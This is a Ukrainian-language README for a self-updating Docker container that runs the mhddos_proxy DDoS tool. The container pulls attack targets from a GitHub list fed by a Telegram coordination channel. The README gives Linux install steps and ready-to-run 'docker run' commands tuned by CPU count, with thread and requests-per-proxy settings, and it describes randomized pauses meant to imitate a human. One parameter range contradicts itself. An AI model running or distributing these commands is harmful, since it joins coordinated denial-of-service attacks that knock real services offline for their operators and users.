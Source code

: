 # Опис docker

### ЯКЩО ВИ КОРИСТУВАЧ WINDOWS, ТО ЗАБУДЬТЕ ПРО ДОКЕР, БО ЦЕ ВІРТУАЛКА, ЯКА ЖРЕ УВЕСЬ ПРОЦЕССОР, ТА ЙДІТЬ СЮДИ: https://github.com/alexnest-ua/runner_for_windows  
### ЯКЩО ВИ КОРИСТУВАЧ MAC - ЙДІТЬ СЮДИ: https://github.com/alexnest-ua/auto_mhddos_mac
### ЯКЩО ВИ КОРИСТУВАЧ LINUX - ЙДІТЬ СЮДИ: https://github.com/alexnest-ua/auto_mhddos_alexnest
  
### ЯКЩО ВИ ТАКИ ХОЧЕТЕ НАСИЛУВАТИ СВІЙ ПРОЦЕСОР ДОКЕРОМ - РОБІТЬ ТЕ ЩО НИЖЧЕ:  

ПОВНІСТЮ АВТООНОВЛЮВАНИЙ (оновлює цілі та себе) docker-контейнер для будь-яких машин, що керує [mhddos_proxy](https://github.com/porthole-ascend-cinnamon/mhddos_proxy) та [proxy_finder](https://github.com/porthole-ascend-cinnamon/proxy_finder)   
Також він автоматично оновлює не лише свій скрипт та цілі, а й скрипт mhddos_proxy та proxy_finder 
Також скрипт імітує роботу людини (вимикає увесь ДДоС на 1-2 (рандомно) хвилин), щоб дати машині трохи відпочити
Скрипт розподіляє ваші машини по цілям: https://github.com/alexnest-ua/targets/blob/main/targets_docker (цілі беруться звідси: https://t.me/ddos_separ)  
Увесь source code знаходиться тут: https://github.com/alexnest-ua/auto_mhddos_alexnest/tree/docker  
  
[**Налаштування**](#%D0%BD%D0%B0%D0%BB%D0%B0%D1%88%D1%82%D1%83%D0%B2%D0%B0%D0%BD%D0%BD%D1%8F-%D0%B2%D1%81%D1%82%D0%B0%D0%BD%D0%BE%D0%B2%D0%BB%D0%B5%D0%BD%D0%BD%D1%8F)  
[**Запуск у фон**](#%D0%B7%D0%B0%D0%BF%D1%83%D1%81%D0%BA-%D0%BD%D0%B0-%D1%80%D0%BE%D0%B1%D0%BE%D1%82%D1%83-%D1%83-%D1%84%D0%BE%D0%BD%D1%96-247-%D0%BD%D0%B0-linux-%D1%81%D0%B5%D1%80%D0%B2%D0%B5%D1%80%D1%96-%D1%82%D0%B0-%D0%B4%D0%BE-%D0%B7%D0%B0%D0%B2%D0%B5%D1%80%D1%88%D0%B5%D0%BD%D0%BD%D1%8F-%D1%80%D0%BE%D0%B1%D0%BE%D1%82%D0%B8-%D0%BD%D0%B0-windows---%D0%BC%D0%BE%D0%B6%D0%BD%D0%B0-%D0%B7%D0%B0%D0%BA%D1%80%D0%B8%D0%B2%D0%B0%D1%82%D0%B8-%D1%82%D0%B5%D1%80%D0%BC%D1%96%D0%BD%D0%B0%D0%BB)  
[**Приклади команд НЕ у фон з --debug та без**](#%D0%BF%D1%80%D0%B8%D0%BA%D0%BB%D0%B0%D0%B4%D0%B8-%D0%BA%D0%BE%D0%BC%D0%B0%D0%BD%D0%B4-%D0%B7-%D1%80%D1%96%D0%B7%D0%BD%D0%B8%D0%BC%D0%B8-%D0%BF%D0%B0%D1%80%D0%B0%D0%BC%D0%B5%D1%82%D1%80%D0%B0%D0%BC%D0%B8%D0%B4%D0%BB%D1%8F-linux-%D0%B4%D0%BE%D0%B4%D0%B0%D0%B2%D0%B0%D0%B9%D1%82%D0%B5-sudo-%D0%B0%D0%B1%D0%BE-%D0%BA%D1%80%D0%B0%D1%89%D0%B5-%D1%81%D1%82%D0%B0%D0%B2%D1%82%D0%B5-%D0%BD%D0%B0-%D0%BF%D1%80%D1%8F%D0%BC%D1%83-httpsgithubcomalexnest-uaauto_mhddos_alexnest)  
[**Подивитися що там працює у фоні(для Linux додайте sudo на початку) та ВБИТИ процес**](#%D0%BF%D0%BE%D0%B4%D0%B8%D0%B2%D0%B8%D1%82%D0%B8%D1%81%D1%8F-%D1%89%D0%BE-%D1%82%D0%B0%D0%BC-%D0%BF%D1%80%D0%B0%D1%86%D1%8E%D1%94-%D1%83-%D1%84%D0%BE%D0%BD%D1%96%D0%B4%D0%BB%D1%8F-linux-%D0%B4%D0%BE%D0%B4%D0%B0%D0%B9%D1%82%D0%B5-sudo-%D0%BD%D0%B0-%D0%BF%D0%BE%D1%87%D0%B0%D1%82%D0%BA%D1%83-%D1%82%D0%B0-%D0%B2%D0%B1%D0%B8%D1%82%D0%B8-%D0%BF%D1%80%D0%BE%D1%86%D0%B5%D1%81)

Канал, де координуються цілі: https://t.me/ddos_separ (звідти і беруться сюди цілі, тому якщо у вас на Linux запущено цей скрипт - то можете відпочивати, він все зробить за вас)  
Чат, де ви можете задати свої питання: https://t.me/+8swDHSe_ROI5MmJi  
Також можете писати мені в особисті у телеграм, я завжди усім відповідаю: @brainqdead  
  
Туторіал по створенню автоматичних та автономних Linux-серверів: https://auto-ddos.notion.site/dd91326ed30140208383ffedd0f13e5c  

## Налаштування (встановлення)
  
* щоб скачати на Windows / Mac:  
https://www.docker.com/get-started/ (якщо виникають якісь проблеми: пишіть мені @brainqdead (телеграм))

* щоб скачати на Linux-машину(але краще ставте напряму: https://github.com/alexnest-ua/auto_mhddos_alexnest ):  
```
sudo apt update -y
sudo apt upgrade -y
sudo curl -fsSL https://download.docker.com/linux/debian/gpg | sudo apt-key add -
sudo echo 'deb [arch=amd64] https://download.docker.com/linux/debian buster stable' | sudo tee /etc/apt/sources.list.d/docker.list
sudo apt update -y
sudo apt remove docker docker-engine docker.io -y
sudo apt install docker-ce -y
sudo systemctl unmask docker.service
sudo systemctl unmask docker.socket
sudo systemctl start docker.service
sudo systemctl start docker
sudo systemctl enable docker
sudo docker run hello-world
docker run -it --rm --pull always alexnestua/auto_mhddos
```
  
*чекаємо 5-10 хвилин поки все встановиться.*  

## Запуск на роботу у фоні (24/7 на Linux-сервері та до завершення роботи на Windows) - можна закривати термінал
Запуск автоматичного ДДоСу(без виведення на екран):  
```
docker run -itd --rm --pull always --name alexnestua ghcr.io/alexnest-ua/auto_mhddos_alexnest:latest 
```
* Буде запущено атаку з наступними параметрами за замовчуванням: threads=1500 rpc=1000 debug="" vpn=""(1500 потоків, 1000 запитів на проксі перед відправкою на ціль, без дебагу, без атаки через ваш ІР) та автоматично запустить паралельно наш [proxy_finder](https://github.com/porthole-ascend-cinnamon/proxy_finder)  

**!!!УВАГА!!!** контейнер підтримує наступні параметри (САМЕ У ТАКОМУ ПОРЯДКУ ТА ЛИШЕ У ТАКІЙ КІЛЬКОСТІ(мінімум 3)), але можно і без них:  
docker run -it --rm --pull always --name alexnest alexnestua/auto_mhddos [num_of_copies] [threads] [rpc] [debug]  
- num_of_copies - кількість атакуємих списків цілей за один прохід (але не менше 1, та не більше 3, бо більше 3-ох знижує ефективність)
- threads - кількість потоків (але не менше 5000, та не більше 4000)
- rpc - кількість запитів на проксі перед відправкою на ціль (але не менше 1000, та не більше 2500)
- debug - можливість дебагу (якщо хочете бачити повний інфу по атаці - у 4-ий параметр додайте --debug)
  
### Приклади команд з різними параметрами(для Linux додавайте sudo, або краще ставте на пряму: https://github.com/alexnest-ua/auto_mhddos_alexnest):
  
* У всіх варіантах буде автоматично запущено паралельно наш [proxy_finder](https://github.com/porthole-ascend-cinnamon/proxy_finder)  
  
**Для Linux перед командами додавайте на початку `sudo`**  

1. ***Для лінивих*** (буде обрано за замовчуванням: num_of_copies=1, threads=1500 rpc=1000 debug="" (1 ціль, 1500 потоків, 1000 запитів на проксі перед відправкою на ціль, без дебагу)
```
docker run -it --rm --pull always --name alexnestua ghcr.io/alexnest-ua/auto_mhddos_alexnest:latest
```
**CPUs** - це ядра вашого процесора - зазвичай ядер у два рази менше ніж потоків

2. Слаба машина(1 CPU), саме ці параметри за замовчуванням:
```
docker run -it --rm --pull always --name alexnestua ghcr.io/alexnest-ua/auto_mhddos_alexnest:latest 1 1000 1000
```

3. Середня машина(2-4 CPUs):
```
docker run -it --rm --pull always --name alexnestua ghcr.io/alexnest-ua/auto_mhddos_alexnest:latest 1 1500 2000
```

4. Нормальна машина(4-8 CPUs):
```
docker run -it --rm --pull always --name alexnestua ghcr.io/alexnest-ua/auto_mhddos_alexnest:latest 2 2000 2000
```

5. Потужна машина(9+ CPUs):
```
docker run -it --rm --pull always --name alexnestua ghcr.io/alexnest-ua/auto_mhddos_alexnest:latest all 4000 2500
```

Після цього, якщо хочете вбити процес - натискайте Ctrl+C  (у його відкритій вкладці) або якщо не спрацює - закривайте вікно.  

*також ви можете змінювати параметри на будь-які інші значення, але я рекомендую саме ці.*  
*також можете додавати останнім **4-тим** параметром --debug, що слідкувати за ходом атаки, наприклад:*  
```
docker run -it --rm --pull always --name alexnestua ghcr.io/alexnest-ua/auto_mhddos_alexnest:latest 1 1500 1000 --debug
```

* Приклад **БЕЗ** параметру --debug:  
![image](https://user-images.githubusercontent.com/74729549/168069087-1d1d641e-4ded-43b8-99e4-1d0688e3d2f0.png)  
***наступні 5 хвилин буде виводитись лише інформація від proxy_finder про пошук проксі, але атака теж йде паралельно!***  
* Приклад **З** параметром --debug:  
![image](https://user-images.githubusercontent.com/74729549/168068441-0be60ba6-49c7-41de-a89c-c50410a50fef.png)  

Далі кожні 5 хвилин воно буде оновлювати список проксі, а кожні 20 хвилин - цілі атаки    

### Подивитися що там працює у фоні(для Linux додайте sudo на початку) та ВБИТИ процес:  
```shell
docker ps  -a
```
щоб вбити запущені раніше фонові Docker підпроцеси на Linux прописуєте:  
```shell
sudo docker kill $(sudo docker ps -aqf name=alexnestua)
```
або на Windows зайти у Docker Dekstop -> Containers / Apps -> Видалити container з ім'ям alexnestua



## Список цілей  

  
ghcr.io/alexnest-ua/auto_mhddos_alexnest:latest підтримує єдиний [список цілей](https://github.com/alexnest-ua/targets/blob/main/targets_docker), який можна тримати на github і постійно оновлювати.  
  
    
Цілі не обов'язково видаляти із списку. Їх можна просто закоментувати і розкоментувати пізніше, якщо вони знов знадобляться. Скрипт використовує лише строки, які починаються не на #.  

## Thanks

Special thanks to https://github.com/OleksandrBlack and https://twitter.com/SprechenFuehrer  
